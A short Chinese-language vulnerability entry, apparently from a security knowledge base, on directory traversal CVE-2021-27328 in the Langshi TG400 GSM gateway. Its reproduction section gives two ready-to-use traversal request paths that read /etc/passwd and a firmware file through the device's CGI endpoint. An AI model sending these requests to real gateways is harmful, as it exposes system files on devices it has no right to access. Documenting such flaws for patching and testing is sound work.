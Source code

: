 # 朗视 TG400 GSM 网关目录遍历  CVE-2021-27328

## 漏洞描述

朗视 TG400 GSM 网关存在目录遍历 ，攻击者可以通过漏洞获取敏感信息

## 漏洞影响

<a-checkbox checked>朗视 TG400 GSM 网关</a-checkbox></br>

## 漏洞复现

```plain
/cgi/WebCGI?1404=../../../../../../../../../../bin/firmware_detect
/cgi/WebCGI?1404=../../../../../../../../../../etc/passwd
```

![img](../../../.vuepress/public/img/1650602505512-6ebb6038-f759-4cbe-9f40-a4e398385f61.png)